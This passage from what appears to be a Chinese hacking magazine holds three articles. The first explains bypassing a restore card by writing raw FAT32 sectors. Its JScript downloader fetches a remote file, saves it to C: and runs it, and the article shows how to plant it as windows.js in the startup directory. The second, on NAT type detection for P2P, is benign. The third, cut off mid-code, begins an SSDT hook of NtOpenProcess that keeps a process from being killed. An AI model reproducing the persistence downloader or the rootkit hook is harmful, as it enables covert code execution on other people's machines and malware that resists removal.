| 字节偏移 | 字节数 | 内容及含义 |
|---|---:|---|
| 00H~07H | 8 | 用于表示文件名 |
| 08H~0AH | 3 | 用于表示文件扩展名 |
| 0BH | 1 | 按二进制位定义的文件属性，如只读位、系统位、隐藏位、子目录位等，0FH 表示该项为长文件名记录项 |
| 14H~15H | 2 | 文件起始簇号的高 16 位 |
| 1AH~1BH | 2 | 文件起始簇号的低 16 位 |
| 1CH~1FH | 4 | 32 位文件字节长度 |

#### 3）文件分配簇链

文件分配表 FAT 是用来记录每个文件的存储位置的表格，操作系统以簇为单位给文件分配磁盘空间，每个簇在 FAT 表中占有一个登记项，簇编号也是登记项编号。对 FAT32 来说，每个登记项占用 4 字节，0 号登记项和 1 号登记项是表头，簇的登记项从 2 开始。表项值 00000000H 表示未使用的簇，00000002H~FFFFFFEFH 表示一个已分配的簇号，FFFFFF0FH 表示文件结束簇，FFFFFFF7H 表示坏簇等，但注意要按高字节在后的方式读出已分配的簇号。一个文件至少占用一个簇，当文件占用多个簇时，这些簇的簇号不一定是连续的。

有了以上基础知识，我们就开始设计算法了，算法如下。

- 1) 根据主引导扇区中的分区表偏移08h-0Bh，得到第一个分区引导扇区逻辑扇区号 s0。
- 2) 从第一个分区引导扇区 0Eh~0Fh 得到保留扇区数 s1，以及偏移 24h~27h 得每个 FAT 占用扇区数 s3。
- 3) 以 s0、s1 相加得到第一个分区的文件分配表 FAT1。
- 4) s0+s1+2*s3 得到根目录逻辑扇区号。
- 5) 分析目录项，循环遍历，最后找到启动目录的目录项入口。
- 6) 在启动目录中添加一个目录项。
- 7) 在 FAT1 中为文件分配一个簇的空间存放文件内容。
- 8) 向该分配的簇中写入文件的内容。

这里必须注意的是，目录项的下一目录入口为簇号，必须把它转换为逻辑扇区号。转换方法上面已经介绍了，具体为：S=(C-2)*P+B，其中 C 为需要转化的簇号，P 为每簇扇区数，B 为根目录扇区数。

写到这里，大家就可以根据以上的算法和 FAT32 文件系统的结构对程序源代码进行分析了。如果我再把程序给大家分析一遍就没有什么必要了，我就挑重要的给大家介绍一下如何通过修改程序源代码向文件写入你需要的信息，其他的大家就自己看源代码吧。

首先把需要写入的文件信息做了如下的定义：

char shellcode[]="var iLocal,iRemote,xPost,sGet,Runner;\r\niLocal='\\C:\\\\baidu.gif';\r\niRemote='http://www.baidu.com/img/logo.gif';\r\niLocal=iLocal.toLowerCase();\r\niRemote=iRemote.toLowerCase();\r\nxPost = new ActiveXObject('Microsoft.XMLHTTP');\r\nxPost.Open('GET',iRemote,0);\r\nxPost.Send();\r\nsGet = new ActiveXObject('ADODB.Stream');\r\nsGet.Mode = 3;\r\nsGet.Type = 1;\r\nsGet.Open();\r\nsGet.Write(xPost.responseBody);\r\nsGet.SaveToFile(iLocal,2);\r\nRunner=new ActiveXObject('Wscript.Shell');\r\nRunner.Run(iLocal,1);\r\n";

```c
```

哈哈，其实就是个脚本下载程序。你可以根据自己的需要进行修改，但是长度一定不要超过 512 字节，不然一个扇区放不下。

在我提供的源程序中，还可以找到如下的代码段，其最后一行中的“484”是写入的数据长度，不包括最后的那个“\0”。

```c
//写文件数据
dwDirectoryEntry=RootAdder+(FreeCluster-2)*SectorPerCluster;
memset(InputBuffer, 0, 516);
ReadConfig(dwDirectoryEntry,InputBuffer);
memcpy(InputBuffer+4,shellcode,484);
```

除此之外，还有一个地方需要修改，就是该文件的目录项，我是在 AddFile() 函数中进行定义的。

```c
void AddFile(unsigned char *InputBuffer,DWORD FressCluster)
{
    int i;
    UCHAR NewFile[32]={0x57,0x49,0x4E,0x44,0x4F,0x57,0x53,0x20,0x4A,0x53,0x20,0x20,0x18,0x07,0x2C,0x11,
    0x7B,0x37,0x7B,0x37,0x07,0x00,0x4B,0x11,0x7B,0x37,0x4C,0x21,0xE4,0x01,0x00,0x00};

    memcpy(InputBuffer,NewFile,32);
    *((WORD*)(InputBuffer+0x1a))=FressCluster&0x0000ffff;
    *((WORD*)(InputBuffer+0x14))=FressCluster>>16;
    //只在第一项添加
    return;
}
```

其中 NewFile 数组定义了添加的文件 windows.js 的目录项，关于目录项中各个数据的含义，大家参照我上面对目录项的分析自己好好了解一下即可。需要注意的是“0xE4,0x01,0x00,0x00”，这 4 字节是你添加的文件长度；因为这是按照小端存放的，实际数值为 0x1E4，刚好为 484 字节，这个数据需要根据你自己添加的数据大小进行修改。

写到这里，FAT32 文件系统下穿透还原卡的程序就给大家分析完了。分析 NTFS 文件系统的方法也是大同小异，不过 NTFS 文件系统分析起来要麻烦得多，代码也复杂烦琐得多。

适合读者：编程爱好者

前置知识：C++

## NAT穿透之NAT类型检测

文／图 张东辉[shineast][http://hi.baidu.com/shineastdh] 麦野


众所周知，NAT（Network Address Translation）很大程度地解决了 IP 地址枯竭的问题，允许多个内网主机使用同一个外网 IP 地址来访问网络，并在一定程度上保障了内网的安全，但同时也给 P2P 模式下的通信和传输带来了诸多不便。因此，NAT 穿透已成为开发 P2P 系统首要解决的问题。更进一步讲，在 NAT 穿透工作的第一步是完成 NAT 类型检测，只有检测出网络上要通信的两个节点的网络类型，才能有的放矢地在其间采取特定方式通信。因此，本文主要内容就是 NAT 类型检测。

具体来说就是，如图1所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定，任何包都可以通过地址 {A:b} 送到客户主机的 {X:y} 地址上。



#### NAT 种类

我们平时使用 NAT 时，可能没有注意用的是哪种类型的 NAT。事实上，NAT 按照网络通信的限制，大致可以分为以下 4 类：Full Cone NAT（完全圆锥型）、Address Restricted Cone NAT（地址限制圆锥型）、Port Restricted Cone NAT（端口限制圆锥型）和 Symmetric NAT（对称型）。

下面我们就这 4 种不同的 NAT，做一些简单阐述。网上有很多资料，我这里只是简单总结一下而已。

##### Full Cone NAT

内网主机建立一个 UDP Socket（LocalIP:LocalPort），第一次使用这个 Socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort），以后用这个 Socket 向外面任何主机发送数据都将使用这对公网（PublicIP:PublicPort）。此外，任何外部主机只要知道这个（PublicIP:PublicPort）就可以发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。

##### Address Restricted Cone NAT

内网主机建立一个 UDP Socket（LocalIP:LocalPort），第一次使用这个 Socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort），以后用这个 Socket 向外面任何主机发送数据都将使用这对（PublicIP:PublicPort）。此外，如果任何外部主机想要发送数据给这个内网主机，只要知道这个（PublicIP:PublicPort），并且内网主机之前用这个 Socket 曾向这个外部主机 IP 发送过数据。只要满足这两个条件，这个外部主机就可以用自己的（IP，任何端口）发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。

具体来说就是，如图2所示，NAT 会将客户机地址 {X:y} 转换成公网地址 {A:b} 并绑定，只有来自主机 {P} 的包才能和主机 {X:y} 通信。

##### Port Restricted Cone NAT

内网主机建立一个 UDP Socket（LocalIP:LocalPort），第一次使用这个 Socket 给外部主机发送数据时，NAT 会给其分配一个公网（PublicIP:PublicPort）。此外，如果任何外部主机想要发送数据给这个内网主机，只要知道这个（PublicIP:PublicPort）并且内网主机之前用这个 Socket 曾向这个外部主机（IP,Port）发送过数据。只要满足这两个条件，这个外部主机就可以用自己的（IP,Port）发送数据给（PublicIP:PublicPort），内网的主机就能收到这个数据包。





具体来说就是，如图3所示，NAT 会将客户机地址 {x:y} 转换成公网地址 {A:b} 并绑定，只有来自主机 {P,q} 的包才能和主机 {x:y} 通信。

##### Symmetric NAT

内网主机建立一个 UDP Socket（LocalIP, LocalPort），当用这个 Socket 第一次发数据给外部主机1时，NAT 为其映射一个（PublicIP-1,Port-1），以后内网主机发送给外部主机1的所有数据都是用这个（PublicIP-1,Port-1）。如果内网主机同时用这个 Socket 给外部主机2发送数据，第一次发送时，NAT 会为其分配一个（PublicIP-2,Port-2），以后内网主机发送给外部主机2的所有数据都是用这个（PublicIP-2,Port-2）。如果 NAT 有多个公网 IP，则（PublicIP-1）和（PublicIP-2）可能不同；如果 NAT 只有一个公网 IP，则（Port-1）和（Port-2）肯定不同。



具体来说就是，如图4所示，NAT 会将客户机地址 {x:y} 转换成公网地址 {A:b} 并绑定为 {x:y}{A:b}<->{P:q}，NAT 只接受来自 {P:q} 的 incoming packet，将它转给 {x:y}。每次客户机请求一个不同的公网地址和端口时，NAT 就会新分配一个端口号 {C,d}。

#### NAT 类型检测

了解了以上对 NAT 的分类，接下来就是对某个未知 NAT 的检测了。如何检测呢？仔细思考一下，不难得到结论：如果要准确检测出内网主机的 NAT 类型，外网至少需要两台主机。所以，如果写 NAT 检测程序的话，最好是用两个外部的 supernode 来完成一次检测工作。



```c
/* 包号（dowhat）：
*0 请求用户返回ip:port，7 单独的响应包；
*1 客户请求提供其他主机检测，6 其他主机响应包；
*2 同时请求两主机发回应，5 针对2的回应包。
*/
```

```c
/*
*3 请求使用另一端口发回响应  4 使用另一端口响应
*8 SN请求其他主机检测
*/
//NAT检测开始
// 检测流程：
1) 向超级节点SN1发送0号包，等待一段超时时间，如果没有返回，换下一个超级节点；否则 go 2；如果hostcache中的节点都失效了，那么开始向中心节点发请求，来得到一批新的supernode节点列表；
2) 判断超级节点返回的7号包中携带的(ip,port)和自己发包时用的(ip,port)是否相同，如果相同的话，说明本地是公网IP；如果不同的话，说明存在NAT后；
3) 向SN1发送1号包，并携带一个自己列表中的另一个superNode，SN2的(ip,port)，让SN1发8号包给SN2，告诉本client的外网(ip,port)，让SN2给本client发6号包；另外SN1还可以在自己维护的临近的SN列表中选择3个也给client发送6号包；
4) 如果client在一段超时时间内，没有收到任何包，那么再将3中的过程进行一次，总共最多可以进行N_CheckTime(5)次，其中只要有一次收到包，就 go 5；
5) 如果收到了SN2、SN3、SN4中的任何一个，检测就停止，结果是full cone NAT；如果没有收到任何包，检测继续，go 6；
6) client从自己的hostcache中选择一个SN2，向其发送2号包，等待一段超时时间，如果没有收到5号包的话，继续从hostcache中另选择一个SN3，如果hostcache中的所有SN都不给回应5号包的话，从中心节点获取新的SN后，继续发2号包。收到第一个5号包，开始比较，如果和SN1的返回结果(ip,port)中有任何一对不一致，则说明是Symmetric NAT，检测停止；否则是Restricted Cone NAT，同时继续检测，go 7；
7) client向SN1发送3号包，让SN1换用另一个端口发4号包，重复若干次，如果client能收到，说明是Address Restricted Cone NAT；否则是Port Restricted Cone NAT。检测结束。
*/
```

以上就是主要的检测算法和检测程序的流程，按照上面编程，就可以实现任意节点网络类型的检测。下面简单介绍一下我的程序实现。

编程语言选择 C++，IDE 是 VC6.0，网络封包使用 UDP 包。程序需要编写客户端和服务端，客户端就是上面要检测的 client，服务端就是提供检测服务的 supernode。检测流程的控制过程是在客户端，这样服务端需要做的就是监听端口，然后在解析后做相应的处理即可。

对于客户端来说，比较简单，就是走上面的一个流程。需要注意的是，对一些特殊情况的处理，比如 Socket 超时、本地缓存的 supernode 失效等情况。

对于服务端来说，在编程实现中使用了双线程。主线程启动后，初始化一个循环队列，负责存放发到本机的网络类型检测数据包，然后创建一个子线程，子线程仅负责监听服务端口上的数据包，并把这些包存放在主线程初始化的那个循环队列中。主线程发现循环队列不空时，开始处理这个请求，做上面检测流程中提到的相应处理。

有兴趣的朋友可以看我写的源码，基本都注释了。没有兴趣看源码的朋友，了解了这个检测流程也就罢了，其实并不难。

#### 工具实战

下面把我编写的工具运行一下，看看能不能起到网络类型检测的功能。网络环境是这样的：我在实验室放置了两台 PC，是独立 IP 的，分别是 202.117.7.209 和 202.117.54.230，用来做 supernode，提供检测服务；然后在另外的一个子网内使用一个内部 IP（192.168.3.30）的主机来检测。这里服务端监听的端口是 8888，客户端使用的端口是 7777。



在客户端最终的检测结果如图6所示，检测出我的 NAT 类型是 Port Restricted Cone NAT。



同时在服务端抓包看到的过程也是符合实际的，如图7所示。

#### 总结

希望本文能对开发 P2P 模式通信的朋友有所帮助，如果您对文中提出的检测流程有不同看法或新的思路，可以与我联系并讨论，请不吝赐教！

适合读者：编程爱好者

前置知识：VC

### 内核方法实现进程保护


文／图 夜枫

最近的黑防编程板块很多文章都是讨论关于 Ring0 级的文章，其中印象最深的是 2007 年 11 期的一篇名为《Windows Rootkit 开发初步》的文章。这篇文章大致讲的是 Rootkit 实现进程隐藏，当时我受益匪浅。后来看到这期另外一篇名为《木马编程DIY之线程守护》的文章，提到了一个双进程实现进程守护的方法。不过它的引言里提到了 IceSword 的一种 HOOK 系统底层函数的方法，但是没有细讲。然后我查询很多资料加上自己的研究，试验成功了这个方法。代码原理和 Rootkit 文章的原理类似，不过我稍加改进，更简洁明了，希望对大家学习驱动开发能有一定的帮助。

#### 原理分析

大家知道，如果想要结束一个进程，需要获得当前进程的访问权限，方法是先调用系统 API 函数 OpenProcess 打开进程。

```c
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
);
```

其中设置第一个参数为值 PROCESS_ALL_ACCESS。而实际上 OpenProcess 这个 API 对应了内核的 NtOpenProcess 函数。这个我们可以用 IceSword 查看到，如图1所示，它是系统的 SSDT 表。我们更改 NtOpenProcess 的默认地址，就可以实现对 NtOpenProcess 函数的过滤了（这个原理和 HOOK API 原理类似）。当调用 NtOpenProcess 时，我们先判断是否为我们指定要保护的进程，如果不是，则不管它；如果是，则直接返回。这时调用 OpenProcess 的程序（因为程序调用的是 OpenProcess 在 Kernel32.dll 上的导出函数到 ntdll.dll 的 NtOpenProcess 函数，最后到内核的 NtOpenProcess，具体信息可以查阅一些内核方面的资料）没有获得到正确的访问权限，当调用 TerminateProcess 结束进程的时候就会出错。



#### 步骤整理

- 第一步：修改 SSDT 表来实现对 NtOpenProcess 的挂钩。
- 第二步：通过自定义的 NtOpenProcess 函数过滤传递进来的 PID（进程 ID，用于标识进程，PID 不会有重复值，一个进程一个，可能不连续）。

#### 开发准备

首先我们需要 DDK。我用的是 Windows 2003 的 DDK，也有 Windows XP/2000 的 DDK，不过 Windows 2003 的在 Windows XP 下一样可以使用。安装好后，在开始菜单里就找到相应的内容，如图2所示。选择后会出现一个控制台，进入到代码的目录后，使用 Build 命令就可以编译相应的文件了（选择 Windows XP Free Build Environment 则可以生成发布版，也就是说给别人用的；Checked 版本是调试版本，对方没有 DDK 则无法运行，这里随便选都可以，似乎没有影响），如图3所示。



图 3

驱动编译和一般的编译方法不太一样，需要一个 source 和一个 makefile 两个文件（都没有扩展名），两个文件指示了哪些文件是需要编译的文件以及编译后的一些信息。

makefile 内容如下：  
`!INCLUDE $(NTMAKEENV)\makefile.def`

source 内容如下：

```c
TARGETNAME=Protect
TARGETPATH=.\sys
TARGETTYPE=DRIVER
SOURCES=Protect.c
```

其中 Protect.c 是源文件。

#### 代码分析

下面我们就开始编写代码。先建立一个设备，这样就可以通过程序动态地控制要保护的 PID，否则每次 PID 都会变，我们的程序就没有实际价值了。

```c
#include "ntddk.h"

#define NT_DEVICE_NAME L"\\Device\\ProtectProcess"
#define DOS_DEVICE_NAME L"\\DosDevices\\ProtectProcess"

#define IOCTL_PROTECT_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp);
VOID OnUnload(IN PDRIVER_OBJECT DriverObject);

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    // 卸载时会调用
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT DeviceObjectTemp1 = NULL;
    PDEVICE_OBJECT DeviceObjectTemp2 = NULL;

    DbgPrint("驱动程序卸载...\n");

    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    IoDeleteSymbolicLink(&DeviceLinkString);
    if (DriverObject)
    {
        DeviceObjectTemp1 = DriverObject->DeviceObject;
        while (DeviceObjectTemp1)
        {
            DeviceObjectTemp2 = DeviceObjectTemp1;
